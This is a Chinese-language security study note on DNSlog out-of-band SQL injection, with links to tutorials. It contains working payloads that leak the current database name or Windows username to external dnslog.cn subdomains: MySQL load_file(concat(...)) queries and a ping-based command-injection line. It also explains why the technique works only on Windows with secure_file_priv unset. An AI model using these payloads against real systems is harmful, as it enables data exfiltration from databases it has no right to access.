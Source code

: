
---

#### Dnslog注入

[第30天：WEB攻防-通用漏洞&SQL注入&CTF&二次&堆叠&DNS带外 - 解放者-cracer - 博客园](https://www.cnblogs.com/haorancracker/articles/17695948.html)

[Sql注入详解(原理篇)_sql注入攻击的原理-CSDN博客](https://blog.csdn.net/weixin_45954730/article/details/131525362)

[SQL 注入总结 - han个人博客](https://meethanmj.github.io/2019/09/07/sqlSum/#外带查询原理)

解决不回显(反向连接),SQL注入,命令执行,SSRF等

~~~perl
1.平台
http://www.dnslog.cn
http://admin.dnslog.link
http://ceye.io
2.应用场景：
解决不回显，反向连接，SQL注入，命令执行，SSRF等
在平台上申请一个账号，使用者要支持访问这个地址才能使用，如果不支持那就没办法使用。在注入中只有load_file支持这钟类型的注入。
现在举个命令执行的例子：ping %USERNAME%.ez1dw8.dnslog.cn
SQL注入：
select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));
and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))
命令执行：
ping %USERNAME%.7logee.dnslog.cn
~~~

* Dnslog注入原理

  > 如图，攻击者首先构造注入语句load_file(concat('\\\\',database(),'.test.com\\abc'))，在数据库中database()函数被执行，由concat()函数将执行结果与.test.com\\abc拼接，构成一个新的域名，而mysql中的select load_file()可以发起请求，那么这一条带有数据库查询结果的域名就被提交到DNS服务器进行解析。
  > DNS在解析的时候会留下日志，攻击者就是通过读取多级域名的解析日志，来获取数据库信息。

* 如何获取DNS查询记录日志

  > 可以使用开放的Dnslog平台，如：http://www.dnslog.cn、http://ceye.io等，在上http://ceye.io我们可以获取到有关ceye.io的DNS查询信息。实际上在域名解析的过程中，是由顶级域名向下逐级解析的，我们构造的攻击语句也是如此，当它发现域名中存在ceye.io时，它会将这条域名信息转到相应的NS服务器上，而通过http://ceye.io我们就可以查询到这条DNS解析记录。

* 使用场景和条件

  > 1、dnslog注入只能用于windows平台，因为load_file这个函数的主要目的还是读取本地的文件，所以我们在拼接的时候需要在前面加上两个//，这两个斜杠的目的是为了使用load_file可以查询的unc路径。但是Linux服务器没有unc路径，也就无法使用dnslog注入。
  > 2、sql的布尔型盲注、时间注入的效率普遍很低且当注入的线程太大容易被waf拦截，并且像一些命令执行，xss以及sql注入攻击有时无法看到回显结果，这时就可以考虑DNSlog注入攻击
  > 3、load_file()函数可以使用，也就是说需要数据库配置文件my.ini中的secure_file_priv=
